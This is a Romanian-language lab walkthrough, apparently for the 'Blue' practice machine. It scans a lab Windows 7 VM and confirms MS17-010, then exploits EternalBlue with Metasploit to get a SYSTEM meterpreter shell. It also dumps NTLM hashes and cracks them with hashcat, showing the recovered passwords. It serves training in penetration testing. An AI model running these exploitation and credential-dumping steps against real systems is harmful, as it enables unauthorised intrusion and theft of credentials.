





# Blue Walkthrough 
Depistarea ce in ce sigment este mashina vulnerabila
```bash
netdiscover -r 172.16.49.0/24
...
 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                                                                                   
                                                                                                                                                                                                                 
 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180                                                                                                                                                 
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 172.16.49.2     00:50:56:f5:41:d8      1      60  VMware, Inc.                                                                                                                                                  
 172.16.49.149   00:0c:29:87:91:ce      1      60  VMware, Inc.                                                                                                                                                  
 172.16.49.254   00:50:56:f1:e0:e6      1      60  VMware, Inc. 
 ...
``` 
Acum putem sa scanam care sunt porturile/servicele deschise:
```bash
nmap -sSV -T4 -p- -A 172.16.49.149 
```
Rezultatul vedem din start serviciul smb si ca sau executat unele scripturi pentru acest serviciu:

Avem urmatoarele porturi deschise pe masina vulnerabila:
```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
```



```bash
searchsploit "MS17-010"
```

Putem gasi vulnerabilitatea de **RCE** in metasploit

```bash
nmap --script=smb-vuln-ms17-01.nse -p445 172.16.49.149
...
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-18 08:49 EST
Nmap scan report for 172.16.49.149
Host is up (0.00028s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:87:91:CE (VMware)

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
...
```

Dupa verificare cu scriptul `smb-vuln-ms17-01.nse` putem confirma ca este vulnerabila la `Eternel-Blue`

## Exploatarea prin msfconsole:
Rulam `msfconsole`:
```bash
msfconsole -q
#Facem un search pentru exploitul gasit anterior
search ms17-010
```

In cazul meu sunt interesant doar in **RCE**
```bash
exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
```
Utilizam exploitul dat `exploit/windows/smb/ms17_010_eternalblue`:
```bash
use exploit/windows/smb/ms17_010_eternalblue 
#Acum o sa trebuiasca sa setam optiunele pentru exploit
set RHOST 172.16.49.149
#Rulam exploitul 
exploit #sau run
```
Am primit o sesiune de `meterpreter`:

Facem si un dump pentru credintialele care sunt salvate pe masina:
```bash
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::
user:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
```
Inceracam sa ne ridicam privilegile si vedem ca deja suntem `NT AUTHORITY/SYSTEM`:
```bash
meterpreter > getsystem
[-] Already running as SYSTEM
```
## BruteForce:

```bash
hashcat -m 1000 hash.meterpretor.blue_clear all.txt 


58f5081696f366cdc72491a2c4996bd5:Password456!
31d6cfe0d16ae931b73c59d7e0c089c0:
2b576acbe6bcfda7294d6bd18041b8fe:Password123!
```
Acum avem si credintialele pentru `user` si `administrator`:
```bash
user - Password123!
administrator - Password456!
```
La fel putem sa fim ghidati si de resursa [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)
